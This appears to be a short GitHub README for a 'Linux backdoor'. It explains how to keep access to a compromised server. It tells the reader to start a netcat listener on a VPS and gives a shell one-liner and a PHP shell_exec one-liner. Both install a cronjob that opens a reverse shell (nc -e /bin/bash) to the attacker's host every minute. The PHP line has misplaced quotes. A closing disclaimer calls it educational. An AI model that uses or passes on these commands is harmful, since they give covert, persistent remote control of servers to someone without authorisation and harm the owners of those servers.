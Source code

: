 
Linux  backdoor
* You need vps(aws).
### Linux/Ubuntu
* On the VPS run netcat listener   nc -lnvp 4444   (you can type whatever port you want).
* When you have reverse shell or php shell with remote code execution allowed on the target server use this script to create a cronjob which
 connect your target to your VPS in every 1 minute.
* This is for reverse shell:
* echo "*/1 * * * *  nc your_vps_public_IP the_port_for_netcat  -e /bin/bash   > /dev/null 2>&1 &" > cron && cat cron | crontab -
* This is for php shell
*<?php echo shell_exec("echo '*/1 * * * *  nc your_vps_public_IP the_port  -e /bin/bash   > /dev/null 2>&1 &' > cron && cat cron | crontab -)";?>

### Only for educational purposes!
### Use it on your own server!
